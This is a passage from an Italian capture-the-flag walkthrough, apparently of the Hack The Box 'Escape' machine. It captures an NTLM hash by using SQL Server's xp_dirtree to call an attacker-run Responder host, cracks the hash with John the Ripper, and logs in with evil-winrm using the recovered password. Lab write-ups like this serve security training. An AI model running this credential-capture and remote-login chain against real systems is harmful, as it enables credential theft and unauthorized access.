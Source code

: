 ```bash
responder -I tun0 -v
```

E dal server lancio il seguente comando:

```SQL
EXEC MASTER.sys.xp_dirtree '\\10.10.14.8\prova', 1, 1
```

In questo modo ottengo l'hash dell'utente _sql_svc_:

<p align="center">
  <img src="/Immagini/Windows-Box/Escape/escape-6.png"/>
</p>

Salvo l'hash appena scoperto nel file _hash.txt_ e utilizzo _johntheripper_ per cercare di ricavare la passwoard:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<p align="center">
  <img src="/Immagini/Windows-Box/Escape/escape-7.png"/>
</p>

**Ottengo così la password dell'utente _sql_svc_!**

Ora, tramite _evil-winrm_, provo ad autenticarmi:

```bash
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
<p align="center">